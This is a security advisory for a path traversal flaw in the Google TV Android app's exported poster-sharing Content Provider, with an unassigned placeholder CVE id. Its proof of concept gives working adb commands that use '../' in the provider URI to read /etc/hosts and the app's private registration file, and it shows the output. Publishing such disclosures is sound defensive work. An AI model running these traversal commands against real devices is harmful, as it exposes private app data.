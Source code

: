 ```yaml
---
layout: cve
title: "Google TV Path Traversal"
cve_id: "CVE-2025-yaytempyay"
date: 2025-05-17
reference: 
  - none yet
description: "The Google TV Android application (`com.google.android.videos`) had an exported Content Provider which contains a Path Traversal vulnerability."
---
```


|    **Product**    | Google TV version 4.39.2590.678247678.4-release |
|    **Severity**   |                   ???                   |
| **CVE Reference** |              CVE-2025-yaytempyay              |
|      **Type**     |             Path Traversal            |

## Description

The Google TV Android application (`com.google.android.videos`) had an exported Content Provider which contains a Path Traversal vulnerability. Specifically, the vulnerable Content Provider is `com.google.android.apps.googletv.app.image.PosterSharingContentProvider`.

This issue was exploitable under the following conditions:

* The underlying Google Account was a part of a Google Family
* The Google Family had previously purchased products in the Family Library
* The application has previously been opened and viewed the Highlights section

## Impact

This can allow the calling application to view files on the file system within the context of the Google TV Android application.

## Proof of Concept (PoC)

The following code snippet shows that the `adb shell` user on a Samsung Galaxy S24 could abuse the vulnerable Content Provider to read the `/etc/hosts` file:

```
e1s:/ $ id
uid=2000(shell) gid=2000(shell) groups=2000(shell),1004(input),1007(log),1011(adb),1015(sdcard_rw),1028(sdcard_r),1078(ext_data_rw),1079(ext_obb_rw),3001(net_bt_admin),3002(net_bt),3003(inet),3006(net_bw_stats),3009(readproc),3011(uhid),3012(readtracefs) context=u:r:shell:s0

e1s:/ $ content read --uri content://com.google.android.videos.postersharingcontentprovider/../../../../../../etc/hosts 
127.0.0.1       localhost
::1             ip6-localhost
```

Additionally, this issue could have been used to read files that were in Google TV's private files directory:

```
e1s:/ $ cat /data/data/com.google.android.videos/shared_prefs/registration_data.xml
cat: /data/data/com.google.android.videos/shared_prefs/registration_data.xml: Permission denied

e1s:/ $ content read --uri content://com.google.android.videos.postersharingcontentprovider/../../shared_prefs/registration_data.xml
<?xml version='1.0' encoding='utf-8' standalone='yes' ?>
<map>
    <string name="last_successful_registration_environment_url">notifications-pa.googleapis.com</string>
    <boolean name="is_registered_to_unified_fcm_registration" value="false" />
    <int name="last_successful_registration_request_hash_code" value="364779808" />
    <long name="last_successful_registration_time_ms" value="1728826771075" />
    <string name="fetch_only_id">c21e1400-64e6-4663-a32c-5682569d2bc1</string>
    <string name="internal_target_id">Ch1nY21fZm86djE6Njc3MDQ3MDA2Mzg2MzMxNTk2Nw</string>
    <int name="last_successful_registration_account_type" value="1" />
</map>
```

## Technical Details

The vulnerable Content Provider is meant to host files that are hosted in `/data/user/0/com.google.android.videos/files/offline_images/`. However, this directory is not created by default.

One method to create this directory is to go to the Highlights section of the application, assuming that the underlying Google account met the following conditions:

* The Google Account was a part of a Google Family
* The Google Family had previously purchased TV shows or movies

Once those conditions are met, any application could have exploited this issue by added `../` characters to the Content Provider URI.